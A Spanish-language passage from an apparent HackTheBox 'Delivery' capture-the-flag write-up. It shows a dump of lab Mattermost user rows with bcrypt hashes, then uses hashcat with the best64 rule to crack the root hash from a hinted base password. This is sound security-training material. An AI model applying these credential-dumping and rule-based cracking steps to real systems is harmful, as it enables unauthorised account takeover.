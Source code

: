```bash
| hatotzdacb8mbe95hm4ei8i7ny | 1609844805777 | 1609844805777 |        0 | ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq | NULL     |             | 9122359@delivery.htb    |             0 |          |                    |          |          | system_user              |              0 | {}    | {"channel":"true","comments":"never","desktop":"mention","desktop_sound":"true","email":"true","first_name":"false","mention_keys":"","push":"mention","push_status":"away"} |      1609844805777 |                 0 |              0 | en     | {"automaticTimezone":"","manualTimezone":"","useAutomaticTimezone":"true"}               |         0 |           |
| jing8rk6mjdbudcidw6wz94rdy | 1608992663664 | 1608992663664 |        0 | channelexport                    |                                                              | NULL     |             | channelexport@localhost |             0 |          | Channel Export Bot |          |          | system_user              |              0 | {}    | {"channel":"true","comments":"never","desktop":"mention","desktop_sound":"true","email":"true","first_name":"false","mention_keys":"","push":"mention","push_status":"away"} |      1608992663664 |                 0 |              0 | en     | {"automaticTimezone":"","manualTimezone":"","useAutomaticTimezone":"true"}               |         0 |           |
| n9magehhzincig4mm97xyft9sc | 1609844789048 | 1609844800818 |        0 | 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm | NULL     |             | 5056505@delivery.htb    |             1 |          |                    |          |          | system_user              |              0 | {}    | {"channel":"true","comments":"never","desktop":"mention","desktop_sound":"true","email":"true","first_name":"false","mention_keys":"","push":"mention","push_status":"away"} |      1609844789048 |                 0 |              0 | en     | {"automaticTimezone":"","manualTimezone":"","useAutomaticTimezone":"true"}               |         0 |           |
+----------------------------+---------------+---------------+----------+----------------------------------+--------------------------------------------------------------+----------+-------------+-------------------------+---------------+----------+--------------------+----------+----------+--------------------------+----------------+-------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------+-------------------+----------------+--------+------------------------------------------------------------------------------------------+-----------+-----------+
8 rows in set (0.000 sec)
```

### Cracking hashes and playing with hashcat rules in order to create passwords

Recordando lo que indicaba el usuario `root` en el chat interno de `Mattermost`, es posible que el usuario `root` disponga de una contraseña con una variante a `PleaseSubscribe!`

Teniendo el hash del usuario `root` y la posible contraseña, lo que reaizaremos es crear unas reglas con `hashcat` para crear variantes de la contraseña e intentar crackearla. Verificamos que hemos podido crackear el hash y obtener la contraseña que en un principio con el `rockyou.txt` no lo hubieramos podido crackear.

```bash
❯ catnp hashes
root:$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO

❯ catnp password
PleaseSubscribe!

❯ hashcat -m 3200 hashes password --user -r /usr/share/hashcat/rules/best64.rule
hashcat (v6.2.6) starting
       
...[snip]...
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
...[snip]...
```
